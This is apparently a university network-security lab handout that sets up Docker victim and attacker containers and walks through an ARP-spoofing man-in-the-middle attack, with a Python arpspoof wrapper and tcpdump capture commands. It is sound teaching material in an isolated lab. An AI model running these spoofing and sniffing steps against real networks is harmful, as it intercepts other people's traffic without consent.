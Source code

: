

# Network Security Lab: Man-in-the-Middle Attack Simulation with Docker

## Introduction
In this lab, you will simulate a Man-in-the-Middle (MITM) attack using Docker and Docker Compose. The goal is to set up two virtual machines: one representing a victim and the other an attacker, connected through a common network. You will use Wireshark to analyze network traffic and a custom script to mimic the behavior of Winarp.exe to carry out an ARP spoofing attack.

## Prerequisites
Before starting this lab, make sure you have the following installed:
- Docker Desktop (supports both x86 and Apple Silicon)
- Wireshark (for network traffic analysis)
- Basic understanding of ARP spoofing and networking concepts

## Lab Setup

### Step 1: Install Docker Desktop
Docker Desktop is required to simulate the victim and attacker machines. If you haven’t installed Docker Desktop, follow the installation instructions here: [Docker Desktop Installation](https://docs.docker.com/desktop/).

Once installed, verify that both Docker and Docker Compose are working by running:


```bash
docker --version
docker-compose --version
```

### Step 2: Clone the Lab Repository
The lab environment is available as a Docker Compose configuration. Clone the repository to your local machine using:

```bash
git clone https://github.com/ncat-grad-development/comp726-hw1-alt
```

```bash
cd comp726-hw1-alt
```

### Step 3: Docker Compose Configuration
The following `docker-compose.yml` sets up two containers (victim and attacker) connected through a common network. The attacker container will have elevated network permissions to simulate an MITM attack.

```yaml
version: '3'
services:
  victim:
    image: ubuntu:latest
    container_name: victim
    command: sleep infinity
    networks:
      - mitm_net
    cap_add:
      - NET_RAW

  attacker:
    image: ubuntu:latest
    container_name: attacker
    command: sleep infinity
    networks:
      - mitm_net
    cap_add:
      - NET_ADMIN

networks:
  mitm_net:
    driver: bridge
```

### Step 4: MITM Attack Script
The following script simulates the ARP spoofing attack. It should be executed in the attacker container.

```python
# Basic Python script to simulate MITM setup
import os

victim_ip = input("Enter victim IP: ")
gateway_ip = input("Enter gateway IP: ")

# Run ARP spoofing (this needs to be done in the attacker container)
os.system(f"arpspoof -i eth0 -t {victim_ip} {gateway_ip}")
os.system(f"arpspoof -i eth0 -t {gateway_ip} {victim_ip}")
```

### Step 5: Run the Lab Environment
Once you have the `docker-compose.yml` file and the MITM script in place, you can start the lab environment using the following command:

```bash
docker-compose up
```

This will start two containers: `victim` and `attacker`, both connected through a common network.

### Step 6: Launch the Attack
To launch the MITM attack, follow these steps:

1. Open a terminal window for the attacker container:
   ```bash
   docker exec -it attacker bash
   ```

2. Run the MITM Python script inside the attacker container. The script will prompt you to enter the victim's IP and the gateway IP.

   Assuming your victim container has an IP of `172.18.0.2` and the gateway has an IP of `172.18.0.1`, you would run:
   ```bash
   python3 mitm_script.py
   ```

   Then, input the victim IP and gateway IP as prompted:
   ```bash
   Enter victim IP: 172.18.0.2
   Enter gateway IP: 172.18.0.1
   ```

   This will initiate the ARP spoofing attack.

### Step 7: Generate Network Traffic on the Victim
You can simulate network traffic from the victim container by running basic network commands like `ping` or `curl`:

1. Open a terminal for the victim container:
   ```bash
   docker exec -it victim bash
   ```

2. Use the `ping` command to generate network traffic:
   ```bash
   ping 172.18.0.1  # Gateway IP
   ```

3. You can also try `curl` to generate HTTP requests:
   ```bash
   curl http://ncat.edu
   ```



### Step 8: Use `tcpdump` to Analyze Traffic

1. **Install `tcpdump`**:
   If `tcpdump` is not already installed in the attacker container, install it using the following command:
   ```bash
   apt-get update && apt-get install -y tcpdump
   ```

2. **Capture traffic on the Docker bridge network**:
   Start capturing traffic in the attacker container on the `eth0` interface (or the relevant interface for the container). Run the following command in the attacker container:
   ```bash
   tcpdump -i eth0 -w mitm_capture.pcap
   ```

   This will capture all traffic on the interface `eth0` and save it to the file `mitm_capture.pcap`.

3. **Analyze captured traffic**:
   After capturing the traffic, you can transfer the `.pcap` file to your local machine for analysis using a tool like Wireshark, or you can analyze it directly from the command line using `tcpdump`:

   - To view the contents of the capture file:
     ```bash
     tcpdump -r mitm_capture.pcap
     ```

   - To filter ARP traffic only:
     ```bash
     tcpdump -r mitm_capture.pcap arp
     ```

4. **Transferring the `.pcap` file**:
   If you need to analyze the capture in Wireshark (on a GUI machine), you can copy the `.pcap` file to your host machine. For example, using `docker cp`:
   ```bash
   docker cp attacker:/path/to/mitm_capture.pcap ./mitm_capture.pcap
   ```

   Then, you can open the `mitm_capture.pcap` file in Wireshark for further analysis.

### Step 9: Clean Up
When you are done with the lab, you can stop and remove the Docker containers by running:

```bash
docker-compose down
```

## Conclusion
In this lab, you successfully simulated a Man-in-the-Middle attack using Docker and Docker Compose. You learned how ARP spoofing works and used `tcpdump` to analyze the network traffic. Be sure to review the captured traffic to fully understand how MITM attacks can be executed and detected.

